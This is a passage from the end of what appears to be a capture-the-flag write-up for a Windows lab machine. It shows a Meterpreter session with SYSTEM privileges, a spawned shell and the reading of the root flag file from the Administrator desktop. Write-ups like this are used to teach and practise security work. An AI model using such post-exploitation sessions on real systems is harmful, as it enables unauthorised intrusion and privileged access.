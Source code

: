 Server username: NT AUTHORITY\SYSTEM
meterpreter > 
{% endhighlight %}

As always, root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}
meterpreter > shell
Process 1884 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\users\administrator\desktop\root.txt
type C:\users\administrator\desktop\root.txt
cd39ea0af657a495e33bc59c7836faf6
C:\Windows\system32>
{% endhighlight %}
